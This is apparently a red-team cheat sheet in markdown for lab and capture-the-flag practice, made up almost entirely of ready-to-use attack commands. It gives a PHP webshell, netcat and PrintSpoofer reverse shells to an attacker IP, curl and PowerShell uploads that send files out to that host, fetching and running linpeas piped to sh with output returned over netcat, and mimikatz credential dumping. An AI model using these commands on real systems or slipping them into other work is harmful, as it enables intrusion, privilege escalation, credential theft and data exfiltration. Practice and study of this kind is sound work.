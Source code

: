 # Red Team Cheat Sheet
Useful Quick Commands - Linux

```bash
# Find folders where the user has write permission
find /home -type d -writable -user $(whoami)
# Find flags
find / -name "flag.txt" -print -quit 2>/dev/null
find / -type f \( -name "local.txt" -o -name "proof.txt" -o -name "user.txt" -o -name "root.txt" -o -name "flag.txt" \) -print -quit 2>/dev/null
# Linux - Find files containing keyword
find '/var/www' -type f -exec grep -l 'password' {} + 2>/dev/null
grep -rnw '/home/svc' -e 'password' 2>/dev/null
```

Useful Quick Commands - Windows

```bash
# Windows runas command
runas /user:backupadmin cmd
```

Stabilize reverse shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
export TERM=xterm
```

# Web

## Directory Traversal

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

## HTTP Server for Upload and Download

```
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000

# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh

# Upload with PowerShell
Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $fs = [System.IO.File]::OpenRead("C:\Users\Public\test.out"); $content = New-Object System.Net.Http.MultipartFormDataContent; $fileContent = New-Object System.Net.Http.StreamContent($fs); $fileContent.Headers.ContentDisposition = New-Object System.Net.Http.Headers.ContentDispositionHeaderValue("form-data"); $fileContent.Headers.ContentDisposition.Name = '"file"'; $fileContent.Headers.ContentDisposition.FileName = '"test.out"'; $content.Add($fileContent); $client.PostAsync("http://192.168.45.199/", $content).Wait(); $client.Dispose()

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

# Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

# Windows

PrintSpoofer (Abusing `SeImpersonatePrivilege`)

https://github.com/itm4n/PrintSpoofer

```powershell
https://github.com/itm4n/PrintSpoofer/releases
# Usage 1 - Spawning cmd interactive as system
PrintSpoofer64.exe -i -c cmd
# Usage 2 - Launching reverse shell as system
PrintSpoofer64.exe -c "C:\Users\Public\nc64.exe 192.168.45.145 9001 -e powershell"
```

NC

https://github.com/int0x33/nc.exe/

```powershell
https://github.com/int0x33/nc.exe/
# nc64.exe
https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe
# Reverse shell
nc64.exe 192.168.45.145 9001 -e powershell
```

Mimikatz

https://github.com/ParrotSec/mimikatz

```powershell
https://raw.githubusercontent.com/ParrotSec/mimikatz/refs/heads/master/x64/mimikatz.exe
# Usage
privilege::debug
sekurlsa::logonpasswords full
```

# Linux

```powershell
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # attacker
curl http://192.168.45.145/linpeas.sh | sh | nc 192.168.45.145 9002 # victim
```
